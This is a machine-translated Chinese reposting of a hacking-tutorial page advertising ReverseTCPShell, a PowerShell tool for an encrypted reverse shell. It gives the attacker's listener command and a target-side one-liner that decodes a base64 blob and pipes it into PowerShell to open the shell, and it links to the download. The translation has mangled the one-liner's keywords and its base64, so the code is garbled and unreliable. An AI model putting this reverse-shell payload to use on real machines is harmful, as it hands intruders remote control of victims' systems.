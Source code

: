 # ReverseTCPShell:PowerShell ReverseTCP Shell，客户端和服务器

> 原文：<https://kalilinuxtutorials.com/reversetcpshell/>

[![ReverseTCPShell : PowerShell ReverseTCP Shell, Client & Server](img/5ad621d911a1112f5444f10e3d752c8b.png "ReverseTCPShell : PowerShell ReverseTCP Shell, Client & Server")](https://1.bp.blogspot.com/-KKIFRv6qFWI/XPopvYDgG6I/AAAAAAAAAsM/WjEQQK7JCaUYYHZFMvNMPzYJryP691VGgCLcBGAs/s1600/Payload%2BExecution.png)

**ReverseTCPShell** 是一个使用 PowerShell SecureString 在 TCP 上进行反向加密(AES 256 位)Shell 的工具。

*   **攻击者(C2 服务器监听器):**

PS >。\ReverseTCP.ps1

*   **目标(客户端):**

**cmd>echo iex([字符串]([文本]。编码::Unicode。getstring([转换]::frombase 64 string((jabbacccwbladyanaa 9 acaoabwabkamakwbbae 0 aygaciaasbaagaxaazgayagayagakadqbkgekhyakahualwb 4 afgargbfahuygb 0 ahqabhahyawawaagawa BWA 9 acaowasazqb5ad 0 akbbibambwahyachyazbyqax QA 6 adoargbyag 8 abqbagewbladyanabaqacgbpg 4 azwaac 退出| powershell–**

**也读作-[Metabigor:没有任何 API 键的命令行搜索引擎](https://kalilinuxtutorials.com/metabigor-search-engines-api-key/)**

### 概念验证:

*   有效负载执行:

![](img/3d813459deaaa895a9578cca71ff7aaa.png)

*   分析加密流量:

![](img/f22fd5e4033d061275fdc4dc6f5754fc.png)[**Download**](https://github.com/ZHacker13/ReverseTCPShell)